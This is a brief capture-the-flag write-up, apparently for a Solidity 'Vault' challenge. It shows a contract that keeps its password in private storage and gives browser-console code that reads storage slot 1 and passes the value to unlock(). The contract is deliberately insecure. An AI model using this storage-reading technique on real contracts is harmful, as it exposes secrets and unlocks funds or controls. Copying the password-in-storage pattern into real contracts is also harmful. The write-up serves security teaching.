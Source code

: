 # Vault Attack

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}

```

### task

The challenge goal is to unlock the locked contract

### solution

The attack is simple, nothing is private on the ethereum network, unless if it's encrypted and the decryption keys are not published.
In this case we simply need to check the contract storage for the value of password to unlock the contract.

### steps

```javascript
// in your browser console

// you can just submit the encoded value to the contract
let encoded_password = await web3.eth.getStorageAt(contract.address, 1);

// decode the password
web3.utils.toAscii(encoded_password);

// send the encoded_password to the contract
contract.unlock(encoded_password);

```
